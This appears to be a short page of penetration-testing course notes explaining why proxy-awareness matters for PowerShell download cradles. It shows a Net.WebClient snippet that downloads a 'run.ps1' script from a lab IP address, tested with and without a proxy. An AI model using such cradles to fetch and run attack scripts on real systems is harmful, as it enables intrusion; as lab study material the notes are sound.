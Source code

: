 ## Why is proxy-awareness needed
We have primarily used the _Net.WebClient_ download cradle.

We can validate this by running the following code in a powershell with and without a proxy:
```Powershell
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.150/run.ps1")
```

Without Proxy:
![wo_proxy](../../../Screenshots/wo_proxy.png)

With Proxy:
![w_proxy](../../../../Screenshots/w_proxy.png)

We can see that the system.net.webclient is aware of a proxy in use.


